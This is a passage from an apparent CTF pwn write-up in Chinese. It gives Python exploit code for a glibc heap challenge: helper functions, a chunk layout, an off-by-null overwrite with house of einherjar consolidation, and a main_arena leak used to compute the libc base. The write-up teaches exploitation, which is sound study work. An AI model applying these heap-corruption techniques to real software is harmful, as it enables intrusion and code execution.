 ```python

def rm(idx):
	sla('>>', str(2))
	sla('???', str(idx))

def dp(idx):
	sla('>>', str(3))	
	sla('???', str(idx))

def q():
	sla('>>', str(4))	

```



### 构造堆快布局

```python
	ad(0x80,  'A\n') #idx 0 为了合并
	ad(0x80,  'B\n') #idx 1 为了在合并后,然后分割堆快打印出main_arena
	ad(0x68,  'C\n') #idx 2 为了可以利用fastbin attack 和 off by null
	ad(0xF0,  'D\n') #idx 3 为了使用house of einherjar 合并 chunk 0控制所有堆块
	ad(0x68,  'E\n') #idx 4 了防止top chunk 向前合并
```

### 使用house of einherjar 来合并 chunk 1

```python
	rm(2) #为了使用 off by null 覆盖 chunk3 释放重新开辟
	# use house of einherjar
	p = 'C' * 0x60 
	p += p64(0xda0 - 0xc10) #prev_size = chunk 0 addr - chunk 3 addr
	ad(0x68, p) #使用 off by null 覆盖 chunk 3

	rm(2) #先释放掉进入fastbin中, 后面只需通过溢出修改fd指向我们想要的地方
	# 触发 house of eiherjar
    #避免unlink检查, 先是放掉chunk 0, 这样 chunk0 的fd 和 bk指向的都是main_arena + 88,这样可以绕过unlink检查 FD-bk != P || BK->fd != p
	rm(0) 
	rm(3)  #合并到chunk 0
```

### 泄漏 main_arena 和libc基址

通过分割unsorted bin实现main_arena信息转移,通过开辟0x80内存后, main_arena信息会跑到chunk 1中, 由于我们还对chunk 1没有释放, 直接打印即可获取main_arena + 88 处地址

```python
	# leak main_arena
	ad(0x80, '\n')#分割 unsorted bin, main_arena 会出现在 chunk 1中
	dp()
	main_arena = u64(ru('\x7f')[-5:] + '\x7f\x00\x00') - 0x58
	libc_base = main_arena - 0x3c4b20
	li('main_arena ' + hex(main_arena))
	li('libc_base  ' + hex(libc_base))
```
